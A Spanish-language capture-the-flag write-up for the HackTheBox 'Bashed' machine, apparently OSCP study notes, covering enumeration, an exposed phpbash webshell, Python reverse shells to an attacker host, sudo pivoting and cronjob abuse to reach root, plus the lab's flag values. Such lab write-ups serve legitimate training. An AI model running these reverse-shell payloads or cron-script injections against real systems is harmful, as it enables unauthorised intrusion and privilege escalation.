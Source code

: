 # 💻 Bashed

> 🔊 Plataforma: HackTheBox
>
> 🛡️ Nivel de dificultad: Fácil
>
> 💡 Preparación OSCP - **igneosec**

---

## 🗓️ Información general

- **Nombre de la máquina**: Bashed
- **Dirección IP**: 10.10.10.68
- **Sistema operativo**: Linux (Ubuntu)
- **Tipo de acceso / Vector de entrada**: Explotación de webshell `phpbash.php` encontrada en `/dev`

---

## 🔍 Enumeración

### 🔹 Escaneo de puertos

```bash
nmap -sS -n -p- --min-rate=5000 -oN firstscan --open -v 10.10.10.68 -Pn
```

> Puertos detectados:
> 
> - 80/tcp → HTTP (Apache 2.4.18)

---

### 🔹 Detección de versiones y servicios

```bash
nmap -sCV -p80 10.10.10.68 -oN targetedscan
```

> Resultados clave:
>
> - OS: Ubuntu
> - Servicio Web: Apache/2.4.18 (Ubuntu)
> - Título web: "Arrexel's Development Site"

---

## 🧐 Enumeración web

- Servicio HTTP activo → `http://10.10.10.68`
- `/about.html` y `/single.html` mencionan **phpbash**:

> "phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!"

- Esto nos indica que **phpbash** fue desarrollado en esta máquina y está presente.

Enumeración con `gobuster`:

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt -x html,phtml,php,txt -t 40 -o html-enum.txt
```

> Directorios interesantes:
> - `/dev/`
> - `/uploads/`, `/php/`, `/contact.html` (formulario que no tuvo efecto)

Navegando a `/dev/phpbash.php` descubrimos una **webshell interactiva** tipo terminal → acceso como `www-data`

Intentos fallidos:
- Reverse shell en `contact.html` (formulario) ❌
- `curl -T` para subida de archivos (método PUT no permitido) ❌

**Lección**: Siempre explorar a fondo los directorios detectados y leer el contenido de las páginas informativas.

---

## 🎯 Explotación

### 🔥 Shell inicial desde la webshell

Ya que `phpbash.php` permite ejecución de comandos, conseguimos una shell interactiva usando Python:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

En la máquina atacante:

```bash
nc -lvnp 4444
```

🔹 Acceso como `www-data` conseguido.

---

## 🡇 Escalada de privilegios

### 🔒 Enumeración de sudo

```bash
sudo -l
```

> El usuario `www-data` puede ejecutar comandos como `scriptmanager` sin contraseña

Cambio de usuario:

```bash
sudo -u scriptmanager /bin/bash -i
```

🔹 Nuevo contexto: `scriptmanager`

### 🔎 Búsqueda de archivos relevantes

```bash
find / -writable -user scriptmanager 2>/dev/null
```

> Archivo encontrado: `/scripts/test.py` ✅

---

## ⏳ Cronjob Abuse – Confirmación

Aunque se obtuvo acceso directo a `crontab`, deduje que el script `/scripts/test.py` era ejecutado periódicamente porque:

- Se encontraba editable por `scriptmanager`
- No existía otra razón para su ejecución
- Tras modificarlo con reverse shell, se ejecutó automáticamente ❀

> 💭 **Consejo OSCP**: Si ves un `.py`, `.sh` o similar que puedes modificar como usuario no privilegiado... prueba a insertar una shell inversa, podría tratarse de un cronjob.

---

## 🏳️ Root

Modificamos el archivo `/scripts/test.py` con el siguiente payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.9",7777))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

En la máquina atacante:

```bash
nc -lvnp 7777
```

🔹 Shell como `root` conseguida.

---

## 🌿 Flags encontradas

### ✅ Flag 1 (user.txt)

- **Ruta**: `/home/arrexel/user.txt`
- **Contenido**: `2c281f318555dccb39f6d9c2b44dbd4b`

### ✅ Flag 2 (root.txt)

- **Ruta**: `/root/root.txt`
- **Contenido**: `cc2f0a0ea8c4eaef5e621fd78f3e000b`

---

## 📙 Lecciones aprendidas

- 🔎 Revisar directorios poco comunes: `/dev/`, `/scripts/`
- 🚀 Usar Python para obtener shell inversa cuando sea posible
- ⌚ Detectar cronjobs si scripts se ejecutan automáticamente
- 🧠 No olvidar: los errores y caminos fallidos también enseñan

---

📄 Writeup realizado por **igneosec**

📊 Parte del laboratorio ofensivo: [https://github.com/igneosec](https://github.com/igneosec)

